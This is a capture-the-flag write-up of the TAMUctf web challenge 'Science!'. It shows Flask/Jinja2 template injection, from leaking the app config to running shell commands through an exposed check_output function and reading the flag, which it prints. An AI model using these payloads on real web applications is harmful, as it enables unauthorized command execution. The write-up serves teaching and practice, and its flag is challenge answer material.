 # Science!
Web

## Challenge 

http://web3.tamuctf.com

Difficulty: medium

## Solution

We see this on the page

	Welcome to my new FaaS! (Flask as a Service)
	Please enter the two chemicals you would like to combine:
	Chemical One: [textbox]
	Chemical Two: [textbox]

	[Submit button]

Entering `HELLO` and `WORLD`, I get this upon submitting

	The result of combining HELLO and WORLD is:
	[GIF image]

### Flask injection

Let's try the common Flask injection, I'll submit `{{config}}`

	The result of combining 
	<Config {'JSON_AS_ASCII': True, 'USE_X_SENDFILE': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_DOMAIN': None, 'SESSION_COOKIE_NAME': 'session', 'RUNCMD': <function check_output at 0x7f5f55696668>, 'SESSION_REFRESH_EACH_REQUEST': True, 'LOGGER_HANDLER_POLICY': 'always', 'LOGGER_NAME': 'tamuctf', 'DEBUG': False, 'SECRET_KEY': None, 'EXPLAIN_TEMPLATE_LOADING': False, 'SECERT_KEY': 'super-secret', 'MAX_CONTENT_LENGTH': None, 'APPLICATION_ROOT': None, 'SERVER_NAME': None, 'PREFERRED_URL_SCHEME': 'http', 'JSONIFY_PRETTYPRINT_REGULAR': True, 'TESTING': False, 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'PROPAGATE_EXCEPTIONS': None, 'TEMPLATES_AUTO_RELOAD': None, 'TRAP_BAD_REQUEST_ERRORS': False, 'JSON_SORT_KEYS': True, 'JSONIFY_MIMETYPE': 'application/json', 'SESSION_COOKIE_HTTPONLY': True, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200), 'WFT_CSRF_ENABLED': True, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SESSION_COOKIE_SECURE': False, 'TRAP_HTTP_EXCEPTIONS': False}>
	and TEST is:

---

We see a suspicious entry `'RUNCMD': <function check_output at 0x7f5f55696668>`.

Select it by submitting `{{ config['RUNCMD'] }}`

	The result of combining <function check_output at 0x7f5f55696668> and TEST is:

---

List out the file directory: `{{ config['RUNCMD']('ls') }}`

	The result of combining 
	config.py entry.sh flag.txt requirements.txt serve.py tamuctf
	and TEST is:

Cat out the flag: `{{ config['RUNCMD']('cat flag.txt') }}`

	Something went wrong

Hmm, there is something wrong with our command. 

Notice that the python check_output() is being used... So we must pass the parameters as a list

Submit: `{{ config['RUNCMD'](['cat', 'flag.txt']) }}`

	The result of combining gigem{5h3_bl1nd3d_m3_w17h_5c13nc3}
	  and  is:

## Flag

	gigem{5h3_bl1nd3d_m3_w17h_5c13nc3}

